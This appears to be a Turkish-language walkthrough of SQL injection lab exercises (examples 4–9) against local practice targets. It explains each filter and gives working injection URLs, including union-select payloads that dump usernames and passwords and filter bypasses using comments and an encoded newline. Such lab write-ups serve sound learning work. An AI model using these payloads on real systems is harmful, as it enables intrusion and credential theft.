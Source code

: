 #### Example 4

Burada URL nin sonuna **'** attığımızda hata alıyoruz fakat **or '1' = '1** şeklinde bir sorgu denediğimizdede hata alıyoruz fakat bize veriler gelmiyor direkt tırnak işareti kullanmadan **or 1 = 1** dediğimizde veriler geliyor bu aşamada programcı sorgularda **'** işareti kullanmamış.

`http://192.168.56.101/sqli/example4.php?id=2 or 1 = 1 union select group_concat(id,name,age,groupid,passwd),2,3,4,5 from users`

#### Example 5

Bu aşamada da programcı bizden yalnızca integer değerler alıyor **http://192.168.56.101/sqli/example5.php?name='1**' şeklinde sorgu girdiğimizde  **ERROR INTEGER REQUIRED** şeklinde hata alıyoruz.

`http://192.168.56.101/sqli/example5.php?id=1 or 1 = 1 union select group_concat(name,passwd),2,3,4,5 from users %23`

#### Example 6

Bu bölğmdede bir integer kontrolu var fakat buradaki bir öncekinden çok farklı çalışıyor. Bir önceki integer değerler istiyordu bu seferki ifadenin başına ve sonuna bekıyor 2 side integer ise sorun yok eğer integer değil ise hata döndürüyor **(ERROR INTEGER REQUIRED)**.

`http://192.168.56.101/sqli/example6.php?id=2 or 1 = 1` denersek başarılı sonuç döner
`http://192.168.56.101/sqli/example6.php?id=2 or 1 = 1 %23` denersek sonuna bir tane integer değer atmamız gerekir başarılı sonuç alamayız.

> http://192.168.56.101/sqli/example6.php?id=2 or 1 = 1 %23 1
> http://192.168.56.101/sqli/example6.php?id=2 or 1 = 1 union select group_concat(name,passwd),2,3,4,5 from users %23  1

#### Example 7

Bu bölümde de bir integer filtrelemesi var. Ama bir önceki bölümden farkı ifadenin başına ve sonuna değil tamamına bakıyor. Bundan dolayı az önceki yöntem bizim filtrelemeyi aşmamızı sağlamıyor. Burada farklı bir durum var alınan ifade satır satır alınıyor ve alınan en son satırdaki ifade integer ise filtreleme sorun çıkartmıyor. Bizimde normalde bir satır ifade göndermemiz beklendiği için bu filtrelemenin aşılmaması gerekiyor. Fakat biz burada new line encode haliolan **%0A** ifadesini kullanacağız. Bu ifade bir alt satıra geç demek, program bir alt satıra geçecek ve geçtikten sonraki ifade eğer integer ise hata vermeyecek.

`http://172.16.248.132/sqli/example7.php?id=2%0Aor 1 = 1`

`http://192.168.56.101/sqli/example7.php?id=1 %0A or 1 = 1 union select name,passwd,3,4,5 from users`

#### Example 8

Bu bölümde ise order by kullanıldığı belli oluyor. Ama order by sql ifadesinin en sonunda olduğu için bu sql injection bi işimize yaramayacaktır. Herhangi bir yere sıçrayarak veri elde edemeyiz. Bu sadece sql injection var diyebileceğimiz bir alandır. İfade şu şekilde olacaktır.

>  http://172.16.248.132/sqli/example8.php?order=name` desc %23

#### Example 9

Bir önceki bölümün aynısıdır. Ama tırnak işaretini koymamıza gerek yok.
